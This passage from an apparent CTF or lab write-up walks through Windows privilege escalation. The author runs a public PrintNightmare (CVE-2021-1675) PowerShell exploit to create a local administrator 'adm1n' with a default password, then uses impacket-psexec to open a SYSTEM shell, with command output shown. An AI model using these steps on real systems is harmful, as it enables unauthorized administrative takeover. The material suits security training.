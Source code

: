 * We saw earlier that this system was vulnerable to PrintNightmare so let’s make use of that. I’ll use [this powershell version of it](https://github.com/calebstewart/CVE-2021-1675).
* After downloading the exploit I upload it to the SMB share under the name PrintNightmare.ps1.
* Checking `net users` shows us the following users on the system:

```
User accounts for \\VULNNET-BC3TCK1

-------------------------------------------------------------------------------
Administrator            enterprise-security      Guest
jack-goldenhand          krbtgt                   tony-skid
```

* I change over to the C:\Enterprise-Share directory and run:

```bash
Import-Module .\PrintNightmare.ps1
Invoke-Nightmare
```

* again Checking `net users`:

```bash
User accounts for \\VULNNET-BC3TCK1

-------------------------------------------------------------------------------
adm1n                    Administrator            enterprise-security      
Guest                    jack-goldenhand          krbtgt                   
tony-skid
```

* And now our new user `adm1n` has been created.
* And checking net localgroup administrators shows us it’s a member of the administrators group:

```bash
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
adm1n
Administrator
Domain Admins
Enterprise Admins
```

* Now let’s login to the newly created user which will have a default password of `P@ssw0rd` according to the GitHub repository we downloaded the script from.
* I’ll use impacket-psexec for this:

```
impacket-psexec adm1n@10.10.196.146

Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.196.146.....
[*] Found writable share ADMIN$
[*] Uploading file IprZFyyS.exe
[*] Opening SVCManager on 10.10.196.146.....
[*] Creating service SEsl on 10.10.196.146.....
[*] Starting service SEsl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1757]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```